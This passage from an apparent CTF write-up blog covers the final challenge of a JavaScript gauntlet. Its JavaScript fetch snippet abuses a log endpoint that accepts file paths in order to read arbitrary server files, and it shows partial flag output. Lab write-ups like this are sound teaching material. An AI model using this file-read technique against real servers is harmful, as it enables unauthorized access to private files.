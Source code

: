 ```javascript
```

After running it (press 'r' to move piece, and 'wasd' to move selector in the right place instead of the arrow keys), the flag shows up: **flag{i_actually_wasnt_sorry_83911}**.

::image{src="/res/blog/razorhack-ctf-2024/js-gauntlet-2/were-definitely-doing-this-again-2.jpg" style="width: 100%"}

---

### We Will Never Surrender!

***Ok, we got most of stuff back, but if we can get the master key, we can get access to the terminal and finally secure our systems. The problem is the only copy of the master key is on the server that the attackers have access to. After all this, it seems that they have locked it down and we cannot access any file. Please, this is the last thing I ask of you...***
***~ Justin from IT***

*Solved: 0/33*

The final challenge! This one probably the most difficult, but it does show a lot of cool stuff. This was originally going to be an XSS attack through the notification system, but it was too similar to the one in Jungle Calls last year (doesn't stop me from reusing other challenges, but I digress). The Russian comment says: **It seems like the master key is just placed in the root directory of the server application called 'flag'. What a stupid idea! I'll just, you know, spread this around to where you can't find it so easily...**.

::image{src="/res/blog/razorhack-ctf-2024/js-gauntlet-2/we-will-never-surrender.jpg" style="width: 100%"}

As the comment suggests, we need to read a file called 'flag' on the root server. If we look at the logs dropdown in the *Account Settings* dialog, we see that in order to fetch the log contents, it sends a file URL to the server. We can tell because it says *logs/[log_name].log*, which hints at a file structure of some sort. We can use this to access any file on the root server, like so...

```javascript
const getFile = (file) => {
    fetch('/api/stage8/show_notification', {
        method: 'post',
        headers: {
            'content-type': 'application/json'
        },
        body: JSON.stringify({ file })
    }).then(response => response.json())
    .then(data => {
        // ew, data.data.data
        console.log(data.data.data.map(byte => String.fromCharCode(byte)).join(''))
    })
}

getFile('flag');
// flag{we
// c3JjL2FwaS5qcw==
```
